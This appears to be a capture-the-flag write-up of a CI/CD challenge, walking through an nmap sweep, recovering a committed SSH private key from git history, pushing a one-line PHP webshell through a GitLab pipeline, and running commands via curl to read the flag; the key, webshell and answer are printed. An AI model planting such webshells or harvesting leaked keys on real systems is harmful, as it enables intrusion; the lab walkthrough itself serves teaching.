 ![](../../../resources/screenshots/jollycicd-prompt.png)

We also know that `Tinsel Upatree` has given critical information for this challenge:

```
Great! Thanks so much for your help!

Now that you've helped me with this, I have time to tell you about the deployment tech I've been working on!

Continuous Integration/Continuous Deployment pipelines allow developers to iterate and innovate quickly.

With this project, once I push a commit, a GitLab runner will automatically deploy the changes to production.

WHOOPS! I didn’t mean to commit that to `http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git`...

Unfortunately, if attackers can get in that pipeline, they can make an awful mess of things!
```

---

- After some hopeless poking around locally, I checked my IP (was `172.18.0.99/16`) and did a simple nmap scan for other available hosts (*note: on subsequent tests, it took a while for these hosts to come up, so you have to be patient*):

	- `nmap 172.17.0.1/24 -sP`
	
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-09 05:35 GMT
Nmap scan report for 172.18.0.1
Host is up (0.00020s latency).
MAC Address: 02:42:2F:A5:F3:D3 (Unknown)
Nmap scan report for wordpress-db.local_docker_network (172.18.0.87)
Host is up (0.00013s latency).
MAC Address: 02:42:AC:12:00:57 (Unknown)
Nmap scan report for wordpress.local_docker_network (172.18.0.88)
Host is up (0.000084s latency).
MAC Address: 02:42:AC:12:00:58 (Unknown)
Nmap scan report for gitlab.local_docker_network (172.18.0.150)
Host is up (0.000038s latency).
MAC Address: 02:42:AC:12:00:96 (Unknown)
Nmap scan report for grinchum-land.flag.net.internal (172.18.0.99)
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 1.82 seconds
```

- OK - so we see a gitlab server afterall! We also see `grinchum-land.flag.net.internal` - I recall Tinsel mentioning this earlier: `http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git`. What if we replace the gitlab.flag.net.internal with the hostname we found via nmap?
	- `git clone http://gitlab.local_docker_network/rings-of-powder/wordpress.flag.net.internal.git`

- It worked! Now we have the git repository that we know is linked to a gitlab-runner, and can kick off changes to their wordpress website!  

![](../../../resources/screenshots/jollycicd-ciconfig.png)

- We'll need to learn more. If we run `git log`, we see a commit with the message **whoops**.  Looking deeper, we actually find an SSH public/private key:

![](../../../resources/screenshots/jollycicd-gitlog.png)

- `git log e19f653bde9ea3de6af21a587e41e7a909db1ca5 -p`
 ![](../../../resources/screenshots/jollycicd-pubprivssh.png)

- The public key is: 
`ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP7AsdI7HOvk4piOcwLZfDotPqBj2tDq9NBdTUkbZBri sporx@kringlecon.com`
- The private key is:
```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU5
9wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4g
AAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDot
PqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
-----END OPENSSH PRIVATE KEY-----
```
 
- We place these into `~/.ssh/id_ed25519.pub` and `~/.ssh/id_ed25519` respectively, and set `chmod 0700 ~/.ssh/id_ed25519`. 
- Then we test using `ssh -T git@gitlab.local_docker_network` and it greets us as the user **"knee-oh"**
- We need to also let git know to use these vs. using https:
	- `git remote set-url origin git@gitlab.local_docker_network:knee-oh/rings-of-powder/wordpress.flag.net.internal.git`
- Now that we've got this all set up nice and good, I `rm -rf` the existing clone and re-clone it using SSH:
	- `git clone git@gitlab.local_docker_network:rings-of-powder/wordpress.flag.net.internal.git`
- I make an empty file just to test and see if this all works:
![](../../../resources/screenshots/jollycicd-testpush.png)

- We're in business!!! I modify the root `index.php` to be the most basic of webshells:

```php
<?=`$_GET[0]`?>
```

- `curl http://wordpress.local_docker_network/index.php?0=whoami`:

![](../../../resources/screenshots/jollycicd-rce.png)

- While looking for the flag, we check the root directory and see flag.txt. Reading it, we get our flag!

`curl -L http://wordpress.local_docker_network/index.php?0='cat%20/flag.txt'`

![](../../../resources/screenshots/jollycicd-flag.png)

Answer: **oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT**